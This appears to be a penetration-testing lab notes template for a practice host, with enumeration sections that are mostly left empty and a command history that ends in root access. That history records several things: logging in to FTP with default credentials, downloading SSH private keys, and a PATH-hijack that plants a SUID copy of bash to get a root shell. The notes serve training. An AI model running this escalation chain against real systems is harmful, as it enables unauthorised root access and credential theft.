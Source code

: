 # 192.168.x.143
# Navigation
- [Summary](#summary)
- [Flags](#flags)
- [Accounts](#accounts)
- [Enumeration](#enumeration)
    - [NMAP](#nmap)
    - [Local Users](#local-users)
    - [Local Groups](#local-groups)
    - [System Info](#system-info)
    - [Routes](#routes)
    - [Netstat](#netstat)
    - [Environment Vars](#environment-vars)
    - [Domain Controller Info](#domain-controller-info)
- [Services](#services)
    - [API Endpoints](#api-endpoints)
- [Command History](#command-history)
# Summary
-
# Flags    
`Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include local.txt,proof.txt`
`sudo find / -type f -iname "local.txt" 2>/dev/null`    
`sudo find / -type f -iname "proof.txt" 2>/dev/null`

- /home/john/local.txt
- /root/proof.txt

# Accounts
### username / password
`<connection method>`   
`whoami /priv`
```

```
`whoami /groups`
```

```
# Enumeration
## NMAP
`sudo nmap -sV 192.168.150.149 --top-ports 1000`
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```
`sudo nmap -A -T4 -p- 192.168.150.144`
```

```
## Local Users
`Get-LocalUser`
```

```
## Local Groups
`Get-LocalGroup`
```

```
## System Info
`systeminfo`
```

```
## Routes
`route print`
```

```
## Netstat
`netstat -ano`
```

```
## Environment Vars
`Get-ChildItem Env:`
```

```
## Domain Controller Info
`nltest /dsgetdc:medtech`
```

```
# Services    
## API Endpoints
`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt`
```

```

`gobuster dir -u http://192.168.133.143:80/api/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -b 403`
```
```

`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://192.168.133.143/FUZZ`
```

```
`ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://192.168.133.143/FUZZ`
```
```

# Command History
```c

ftp 192.168.150.149
user: kiero pass: kiero

ls 
there are some id_rsa files

download them

chmod 600 id_rsa id_rsa_2

ssh -i id_rsa john@192.168.148.149

// as john
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash\nchmod +s /tmp/rootbash' > /home/john/chpasswd
chmod +x /home/john/chpasswd
export PATH=/home/john:$PATH
/home/john/RESET_PASSWD
/tmp/rootbash -p



```
snmpwalk -v2c -c public 192.168.150.149 NET-SNMP-EXTEND-MIB::nsExtendObjects

NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendCommand."RESET" = STRING: ./home/john/RESET_PASSWD
NET-SNMP-EXTEND-MIB::nsExtendArgs."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendInput."RESET" = STRING: 
NET-SNMP-EXTEND-MIB::nsExtendCacheTime."RESET" = INTEGER: 5
NET-SNMP-EXTEND-MIB::nsExtendExecType."RESET" = INTEGER: exec(1)
NET-SNMP-EXTEND-MIB::nsExtendRunType."RESET" = INTEGER: run-on-read(1)
NET-SNMP-EXTEND-MIB::nsExtendStorage."RESET" = INTEGER: permanent(4)
NET-SNMP-EXTEND-MIB::nsExtendStatus."RESET" = INTEGER: active(1)
NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutputFull."RESET" = STRING: Resetting password of kiero to the default value
NET-SNMP-EXTEND-MIB::nsExtendOutNumLines."RESET" = INTEGER: 1
NET-SNMP-EXTEND-MIB::nsExtendResult."RESET" = INTEGER: 0
NET-SNMP-EXTEND-MIB::nsExtendOutLine."RESET".1 = STRING: Resetting password of kiero to the default value
